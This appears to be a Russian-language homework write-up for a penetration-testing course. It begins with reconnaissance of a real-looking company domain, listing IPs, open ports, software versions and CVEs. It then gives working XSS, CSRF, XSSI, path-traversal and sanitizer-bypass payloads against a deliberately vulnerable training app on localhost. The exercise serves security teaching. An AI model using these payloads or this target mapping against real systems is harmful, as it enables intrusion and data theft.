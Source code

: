 # Домашнее задание к занятию «Penetration Testing. Часть 1»
### Задание 1

После использования утилиты theHarvester было найдено
7 e-mail адресов и 2 домена.
![](pic/theharvester-scan.png)

После поиска результатов на Censys, было найдено 9 ip-адресов, включая адреса головной компании, почтовые сервера, ip-телефония, открытые ssh порты.

Зона ip-адресов: `Moscow, Russia`  
Домены вернего уровня: `ru`  

-----
Субдомены:  
<details>
<summary>ns1.head-point.ru. (213.33.142.146)</summary><blockquote>

- 25/TCP (Cisco Ironport)
- 1723/TCP (PPTP)
</blockquote></details>

<details>
<summary>ns2.head-point.ru. (37.18.85.126)</summary><blockquote>
Systematic Ltd

- 25/TCP (Cisco Ironport)
- 1723/TCP (PPTP)
</blockquote></details>

<details>
<summary>ns3.head-point.ru. (213.251.242.125)</summary><blockquote>
AO Countrycom  
OS Linux Ubuntu

- 22/TCP (OpenSSH8.2p1 Ubuntu-4ubuntu0.1)
</blockquote></details>

<details>
<summary>ironport3.head-point.ru. (37.18.85.8)</summary><blockquote>
Systematic Ltd
OS Windows 

- 443/TCP (Microsoft IIS)
- 1723/TCP (PPTP)
</blockquote></details>

<details>
<summary>ironport2.head-point.ru. (213.33.142.146)</summary><blockquote>
Systematic Ltd

- 25/TCP (Cisco Ironport)
- 1723/TCP (PPTP)
</blockquote></details>

<details>
<summary>mail.head-point.ru. (37.18.85.4) </summary><blockquote>
Systematic Ltd
OS Microsoft Windows

- 25/SMTP (Cisco PIX)
- 110/POP3 (Microsoft Exchange Server)
- 143/IMAP (Microsoft Exchange Server)
- 443/HTTP (Microsoft IIS)
</blockquote></details>

-------
Связанные адреса:  
<details>
<summary>213.251.249.180</summary><blockquote>

- 443/HTTP (Fortinet FortiOS)
- 8022/SSH (версия 2)
- 8443/HTTP
</blockquote></details>

<details>
<summary>213.251.242.116</summary><blockquote>

- 80/HTTP
- 443/HTTP
</blockquote></details>

<details>
<summary>213.251.242.121</summary><blockquote>
OS - Ubuntu Linux 20.04

- 80/HTTP
- 443/HTTP
- 2222/SSH (OpenBSD OpenSSH 9.0)
- 5000/TCP
- 6000/TCP
- 8008/TCP
- 38654/SSH (OpenBSD OpenSSH 8.2 )

</blockquote></details>

<details>
<summary>213.251.242.122</summary><blockquote>
OS -linux

- 80/HTTP
- 443/HTTP
- 2222/SSH (OpenBSD OpenSSH 9.0)
- 5000/TCP
- 6000/TCP
- 8008/TCP
</blockquote></details>

<details>
<summary>185.26.112.39</summary><blockquote>
OS - Ubuntu Linux 12.04

- 22/SSH (OpenBSD OpenSSH 5.9)
- 25/SMTP (Postfix)
- 80/HTTP (Apache HTTPD 2.2.22)
<details>
<summary>Уязвимости</summary>
<blockquote>

- CVE-2014-0118
- CVE-2022-28614
- CVE-2017-9798
- CVE-2022-29404
- CVE-2015-3183
- CVE-2014-0098
- CVE-2022-28330
- CVE-2012-3499
- CVE-2012-4558
- CVE-2013-1896
- CVE-2016-8612
- CVE-2014-0226
- CVE-2022-22721
- CVE-2022-22720
- CVE-2013-5704
- CVE-2017-7679
- CVE-2013-6438
- CVE-2012-2687
- CVE-2022-37436
- CVE-2016-5387
- CVE-2021-40438
- CVE-2022-31813
- CVE-2008-0455
- CVE-2017-9788
- CVE-2018-1301
- CVE-2018-1302
- CVE-2018-1303
- CVE-2017-3167
- CVE-2021-34798
- CVE-2012-0883
- CVE-2017-3169
- CVE-2015-0228
- CVE-2021-44790
- CVE-2014-0231
- CVE-2013-1862
- CVE-2016-4975
- CVE-2006-20001
- CVE-2016-8743
- CVE-2022-22719
- CVE-2022-28615
- CVE-2022-30556
- CVE-2021-39275
</blockquote>
</details>

</blockquote></details>

<details>
<summary>37.18.85.4</summary><blockquote>
OS - Microsoft Windows
Organization - Systematic Ltd

- 25/SMTP (Cisco PIX sanitized smtpd)
- 110/POP3 (Microsoft Exchange Server)
- 143/IMAP (Microsoft Exchange Server)
- 443/HTTP (Microsoft IIS)

<details>
<summary>Домены</summary><blockquote>

- mail.head-point.ru
- mail.nccme.ae
- autodiscover.head-point.ru
- mail.gcs.ru
- autodiscover.gcs.ru
- autodiscover.ncc.ru

</blockquote>
</details>

</blockquote></details>

<details>
<summary>37.140.192.97</summary><blockquote>
OS - Microsoft Windows
Organization - Reg.Ru Hosting

- 21/TCP (Microsoft FTP Service)
- 25/TCP (MailEnable smptd)
- 53/UDP
- 80/TCP (Microsoft-IIS/10.0 ASP.NET)
- 110/TCP (MailEnable POP3 Server)
- 135/TCP (Microsoft RPC Endpoint Mapper)
- 443/TCP (PleskWin)
- 465/TCP (MailEnable smptd)
- 587/TCP (MailEnable smptd)
- 993/TCP (IMAP4rev1 server)
- 1433/TCP (Windows 10/Windows Server 2019 10.0.17763)
- 8443/TCP (Microsoft-IIS/10.0 ASP.NET)
- 8880/TCP (Microsoft-IIS/10.0 ASP.NET)
</blockquote></details>

------

Так же есть результаты поиска документов в общем доступе:   
![](pic/google-file-search.png)

------
## Задание 2
### XSS
Смотрим как система реагирует на несуществующую страницу:  
`http://localhost:8008/452002223606703030856276251408421215266/test`  
![](pic/xss-test-url.png)

 Далее используем XSS локатор из [OWASP CheatSheetSeries](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.md)  

Локатор:  
 `javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>`  

XSS:  
 `http://localhost:8008/530192841835716474238212610358927358482/%3Csvg/onload=alert(document.cookie)//'%3E`

 ![](pic/xss.png)  

------
 ### XSRF

На портале есть возможность добавления пользовательских сниппетов. При просмотре списка сниппетов есть кнопки удаления сниппетов и запрос вида  
`http://localhost:8008/530192841835716474238212610358927358482/deletesnippet?index=0`

Если заставить пользователя пройти по ссылке и провести атаку через хранимую XSS можно удалить сниппет от имени пользователя.  

![](pic/xsrf-snippet-list.png)  

Создаем страницу со скрытой ссылкой  
```
<link href="http://localhost:8008/551451167496643649739844506544308983555/deletesnippet?index=0" rel="stylesheet noreferrer" type="text/css">
<iframe width="1000px" height="1000px" src="http://localhost:8008/551451167496643649739844506544308983555/snippets.gtl"></iframe>
```

![](pic/xsrf-example.png)  

 ------

 ### XSSI
Создаем страницу с подключением скрипта `feed.gtl`  
На своей странице переопределяем функцию `_feed`  
```
<script>
    function _feed(data) {
      alert("Private user data: " + JSON.stringify(data));
    }
</script>
<script src="http://localhost:8008/551451167496643649739844506544308983555/feed.gtl"></script>
```
![](pic/xssi-example.png)

 ------

 ### Path traversal

Создаем двух пользователей `test`, `hacker`  
Добавляем файлы для обоих пользователей.  
![](pic/path-traversal-upload-file.png)

Далее пытаемся читать чужой файл составляя ссылку по аналогии со своей.  

```
http://localhost:8008/551451167496643649739844506544308983555/test/secret.txt
```

![](pic/path-traversal-test_secret.png)  

Можно читать файлы из корневой директории программы  
Пример запроса:  
```
http://localhost:8008/551451167496643649739844506544308983555/hacker%2F..%2F..%2Fsecret.txt
```
![](pic/path-traversal-secret.png)  

 ------

 ### Code Execution

Создаем пользователя с именем `..`  
Редактируем файл `sanitize.py`, удаляем ограничения на атрибуты событий:  
```
disallowed_attributes = [
      'onblur', 'onchange', 'onclick', 'ondblclick', 'onfocus',
      'onkeydown', 'onkeypress', 'onkeyup', 'onload', 'onmousedown',
      'onmousemove', 'onmouseout', 'onmouseup', 'onreset',
      'onselect', 'onsubmit', 'onunload'
  ]
```
Загружаем измененный файл и перезагружаем сервер 
вызвав метод сервера  
 `def _DoQuitserver(self, cookie, specials, params)`  

![](pic/code-execution-file-upload.png)  
![](pic/code-execution-quitsrv.png)  



Создаем новый сниппет:  
`<i onmouseup="alert(document.cookie)">Focus</i>`  

![](pic/code-execution-new-snippet.png)

Проверяем изменения:  
![](pic/code-execution-example.png)



------


